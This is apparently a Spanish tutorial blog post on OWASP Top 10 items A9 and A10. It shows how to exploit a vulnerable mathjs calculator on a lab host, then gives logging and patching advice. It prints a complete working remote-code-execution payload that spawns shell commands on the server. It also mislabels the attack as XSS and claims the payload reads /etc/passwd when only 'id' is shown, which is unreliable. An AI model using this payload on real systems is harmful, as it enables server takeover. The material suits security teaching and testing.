 ```yaml
---
layout: post
title:  "Explotando vulnerabilidades conocidas y los riesgos de falta de monitoreo"
description: "Explotando los 10 riesgos mas criticos segun el OWASP VIII"
date:   2019-07-17
image:  OwaspTopTen.jpg
tags:   [Vulnerabilidades Conocidas, Pentesting WEB, Hacking NodeJS]
---
```


Hello Engineers!   
En el dia de hoy, vamos a aprender acerca de una debilidad muy usual y critica en las aplicaciones web.  

**A9 - Using Components with Known Vulnerabilities**  
Son todas aquellas vulnerabilidades que se descubrieron en componentes de código abierto y se publicaron en NVD, avisos de seguridad o rastreadores de problemas. Desde el momento de la publicación, los hackers pueden encontrar una vulnerabilidad que encuentre la documentación.  

## Conceptos Basicos  
**CVE (Common Vulnerabilities and Exposures)**  
Es una lista de información registrada sobre vulnerabilidades de seguridad conocidas, en la que cada referencia tiene un número de identificación único.1​ De esta forma ofrece una nomenclatura común para el conocimiento público de este tipo de problemas, facilitando la compartición de datos sobre dichas vulnerabilidades.  
[Articulo Completo](https://es.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures)    

**National Vulnerability Database (NVD)**  
Es el repositorio del gobierno de los EE. UU. De datos de gestión de vulnerabilidades basados ​​en estándares representados mediante el Protocolo de automatización de contenido de seguridad (SCAP). Estos datos permiten la automatización de la gestión de vulnerabilidades, la medición de seguridad y el cumplimiento. NVD incluye bases de datos de listas de verificación de seguridad, fallas de software relacionadas con la seguridad, configuraciones erróneas, nombres de productos y métricas de impacto.   
[Articulo Completo](https://en.wikipedia.org/wiki/National_Vulnerability_Database)  

## Explotando las vulnerabilidades mas criticas en aplicaciones WEB.  
## Uso de Componentes con Vulnerabilidades Conocidas  
**Escenario de la prueba #1:**   
Vamos aprender a explotar esta vulnerabilidad por medio de un formulario que usa la libreria mathjs.  

Inicialmente vamos a dirigirnos al apartado para realizar la prueba de inyeccion de XSS reflejada.  
**http://172.17.0.2:9090/app/calc**  


<figure>
  <img src="{{site.baseurl}}/img/calc-web.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/calc-web.png" title="Formulario con funcionalidad de calculadora">Formulario con funcionalidad de calculadora</a>.
  </figcaption>
</figure>

La funcionalidad normal del formulario previamente indicado es para realizar calculos matematicos, en otras palabras es una calculadora WEB.  
La versión de la biblioteca **mathjs** utilizada en la aplicación tiene una vulnerabilidad de ejecución remota de código que permite a un atacante ejecutar código arbitrario en el servidor.  

<figure>
  <img src="{{site.baseurl}}/img/xss.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/xss.png" title="Tabla renderizando lo cargado en el uploader">Tabla renderizando lo cargado en el uploader</a>.
  </figcaption>
</figure>

Vamos a crear un archivo JSON malicioso, con el cual obtendremos el archivo **/etc/passwd**.  
La carga util "maliciosa" que usaremos es la siguiente:  

{% highlight js %}
cos.constructor("spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}")();cos.constructor("return spawnSync('id').output[1]")()
{% endhighlight %}    

Al cargar el archivo logramos obtener el siguiente resultado:  

<figure>
  <img src="{{site.baseurl}}/img/rce.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/rce.png" title="Ejecutando comandos desde el aplicativo WEB">Ejecutando comandos desde el aplicativo WEB</a>.
  </figcaption>
</figure>

Con el payload anterior, logramos ejecutar el comando **id**, el cual sirve para saber uid y el usuario autenticado.  

## A10 - Insufficient Logging and Monitoring   
El registro y monitoreo insuficientes ocurren en cualquier momento:   
 - Eventos auditables, tales como los inicios de sesión, fallos en el inicio de sesión, y transacciones de alto valor no son registrados.   
 - Advertencias y errores generan registros poco claros, inadecuados o ninguno en absoluto.   
 - Registros en aplicaciones o APIs no son monitoreados para detectar actividades sospechosas.   
 - Los registros son almacenados únicamente de forma local.   
 - Los umbrales de alerta y de escalamiento de respuesta no están implementados o no son eficaces. • Las pruebas de penetración y escaneos utilizando herramientas DAST (como OWASP ZAP) no generan alertas.   
 - La aplicación no logra detectar, escalar o alertar sobre ataques en tiempo real.  


## Recomendaciones para el A9  
Remover dependencias, funcionalidades, componentes, archivos y documentación innecesaria y no utilizada.  
  - Utilizar una herramienta para mantener un inventario de versiones de componentes (por ej. frameworks o bibliotecas) tanto del cliente como del servidor.  
  - Monitorizar continuamente fuentes como CVE y NVD en búsqueda de vulnerabilidades en los componentes utilizados.  
  - Utilizar herramientas de análisis automatizados. Suscribirse a alertas de seguridad de los componentes utilizados.    
  - Supervisar bibliotecas y componentes que no poseen mantenimiento o no liberan parches de seguridad para sus versiones obsoletas o sin soporte. Si el parcheo no es posible, considere desplegar un parche virtual para monitorizar, detectar o protegerse contra la debilidad detectada.  

## Recomendaciones para el A10  
Según el riesgo de los datos almacenados o procesados por la aplicación:  
  - Asegúrese de que todos los errores de inicio de sesión, de control de acceso y de validación de entradas de datos del lado del servidor se pueden registrar para identificar cuentas sospechosas. Mantenerlo durante el tiempo suficiente para permitir un eventual análisis forense.   
  - Asegúrese de que las transacciones de alto impacto tengan una pista de auditoría con controles de integridad para prevenir alteraciones o eliminaciones.  
  - Asegúrese que todas las transacciones de alto valor poseen una traza de auditoría con controles de integridad que permitan detectar su modificación o borrado, tales como una base de datos con permisos de inserción únicamente u similar.  

## Aprende hacking explotando las vulnerabilidades mas criticas en aplicaciones WEB.  

 - [A1: Inyección](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-SQL-OWASP-I)   
 - [A2: Pérdida de Autenticación](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A3: Exposición de datos sensibles](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A4: Entidades Externas XML (XXE)](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-XML-OWASP-III)  
 - [A5: Pérdida de Control de Acceso](https://hackingprofessional.github.io/Security/Evadiendo-controles-de-acceso-OWASP-IV)  
 - [A6: Configuración de Seguridad Incorrecta](https://hackingprofessional.github.io/Security/El-riesgo-de-las-Configuraciones-Incorrectas-de-Seguridad-OWAPS-V/)  
 - [A7: Secuencia de Comandos en Sitios Cruzados (XSS)](https://hackingprofessional.github.io/Security/Aprende-a-realizar-una-inyeccion-XSS-OWASP-VI)  
 - [A8: Deserialización Insegura](https://hackingprofessional.github.io/Security/Aprende-que-es-Deserializacion-Insegura-OWASP-VII/)  
 - [A9: Componentes con vulnerabilidades conocidas](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  
 - [A10: Registro y Monitoreo Insuficientes](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  



 [Para mas informacion leer el siguiente PDF publicado por el OWASP](https://www.owasp.org/images/5/5e/OWASP-Top-10-2017-es.pdf)